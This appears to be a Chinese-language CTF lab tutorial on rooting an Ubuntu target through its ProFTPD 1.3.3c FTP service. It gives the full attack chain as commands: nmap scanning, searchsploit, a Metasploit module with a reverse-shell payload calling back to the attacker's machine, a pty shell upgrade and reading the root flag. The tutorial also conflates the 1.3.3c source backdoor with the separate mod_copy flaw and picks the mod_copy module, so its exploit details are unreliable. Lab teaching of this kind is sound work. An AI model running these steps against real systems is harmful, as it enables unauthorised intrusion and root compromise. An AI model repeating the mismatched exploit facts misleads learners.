










# CTF夺旗赛：P7：FTP服务后门利用 🚩

在本节课中，我们将学习如何利用FTP服务中的已知后门漏洞，获取靶机系统的root权限，并最终找到并提交flag值。整个过程将涵盖信息收集、漏洞搜索、利用框架使用和权限提升等关键步骤。

## FTP协议简介

上一节我们介绍了课程目标，本节中我们来看看FTP协议本身。FTP是文件传输协议的英文简称。中文简称为文件协议，用于Internet上的控制文件的双向传输。同时它也是一个应用程序。基于不同操作系统有不同的FTP服务。而所有这些应用程序都遵守同一种协议以传输文件。



在FTP的使用当中，用户经常遇到两个概念：下载和上传。下载文件就是从远程主机拷贝文件到自己的计算机当中。上传文件就是指将文件从自己的计算机拷贝到远程的计算机上。用英文来说，用户可以通过客户机程序从远程主机上传或下载文件。我们也可以得知FTP就是这种文件传输的规定或者是法则。



## 实验环境搭建

了解了FTP的基本概念后，我们需要搭建实验环境。攻击机采用Kali Linux，IP地址是`192.168.1.105`。靶场机器使用Ubuntu系统，它的IP地址是`192.168.1.100`。

## 目标与信息收集

我们现在获得了对应的实验环境，该如何操作呢？我们一定要抱有一种目的性进行对应的操作。我们的目的一定是获取靶场机器上的flag值，取得靶场机器的对应权限。



那么咱们首先要进行第一步，也就是探测我们靶场机器上开放的服务以及对应的版本。使用Nmap进行对应探测，使用参数`-sV`来表示扫描对应的服务版本之后，加上靶场的IP地址。

以下是扫描命令：
```bash
nmap -sV 192.168.1.100
```

除了可以使用`-sV`来扫描靶场的信息，也可以使用快速扫描的方式，扫描靶场主机的全部信息。其中就包括了上面`-sV`扫描的主机服务信息以及服务版本信息。同时它也包括了操作系统的版本以及路由信息等等。

以下是快速扫描命令：
```bash
nmap -T4 -A -v 192.168.1.100
```
*   `-T4`：使用Nmap的最快速度进行扫描。
*   `-A`：启用所有扫描模块。
*   `-v`：返回所有探测的详细信息。

## 漏洞分析与搜索

我们已经使用Nmap扫描到靶场开放的服务，以及对应的一些操作系统信息以及路由信息。那么下面我们需要使用扫描到的结果，并对这个结果进行对应的分析。挖掘其中可以利用的信息之后，利用这些信息来查找漏洞，找到对应的漏洞信息，来对今天的FTP服务进行对应的溢出。

首先我们回到扫描结果当中，会发现我们这里首先分析一下开放的端口，开放了21端口，22端口和80端口。而我们21端口就是FTP服务。我们今天就是针对FTP来进行对应测试。这里我们发现了对应的敏感信息，也就是FTP的软件以及该软件的版本：`ProFTPD 1.3.3c`。

下面我们就来查找一下该版本的软件是否存在对应漏洞。我们就要使用到`searchsploit`来查找。

以下是搜索命令：
```bash
searchsploit ProFTPD 1.3.3c
```

搜索结果显示存在一个名为“ProFTPD 1.3.3c - ‘mod_copy’ Command Execution (Metasploit)”的远程代码执行漏洞。该漏洞通过源代码中的一个后门执行命令，并且已经集成到Metasploit框架中。

## 利用Metasploit进行攻击

我们刚才也看到了ProFTPD 1.3.3c存在对应的远程漏洞，并且集成到Metasploit。现在我们就使用Metasploit来进行远程溢出。



以下是利用步骤：

1.  **启动Metasploit并搜索模块**
    ```bash
    msfconsole
    search ProFTPD 1.3.3c
    ```

2.  **使用漏洞利用模块**
    ```bash
    use exploit/unix/ftp/proftpd_modcopy_exec
    ```



3.  **查看并设置Payload**
    ```bash
    show payloads
    set payload cmd/unix/reverse
    ```

4.  **查看并设置必要参数**
    ```bash
    show options
    set RHOSTS 192.168.1.100
    set LHOST 192.168.1.105
    ```

5.  **执行攻击**
    ```bash
    exploit
    ```



执行成功后，我们会获得一个反向shell连接。使用`id`命令可以查看当前权限，理想情况下会直接获得root权限。





## 权限提升与终端优化

在获得root权限之后，我们可以发现返回的shell没有美观的前端界面。接下来我们就需要使用对应的模块来构成我们优化美化的终端。我们这时候就使用到Python当中的PTY模块之后执行`PTY.spawn`命令，来开启一个功能更完整的终端。

以下是优化命令：
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

## 寻找并提交Flag



在CTF比赛当中，在提升到root权限之后，我们还需要执行下一波操作，就是获取对应的flag值。一般情况下，靶场机器的flag值是存放在服务器的根目录下，也就是`/root`目录下。



以下是寻找flag的命令：
```bash
pwd
ls -alh
cd /root
ls -alh
cat flag
```

找到flag文件后，使用`cat`命令查看其内容，即可获得flag值用于提交。

## 课程总结


本节课中我们一起学习了针对FTP服务的完整渗透流程。对于开放FTP以及SSH、Telnet等服务的系统，我们可以尝试使用`searchsploit`来查看对应服务版本的漏洞代码。如果有该漏洞代码，可以直接利用来获得主机的访问权限。尤其要注意利用现成的EXP来root主机。不要局限于使用Web攻击面来渗透主机。其实它的攻击面有很多，它上面开放的每一个端口、每一个服务，以及对应的版本信息都是值得我们利用的地方。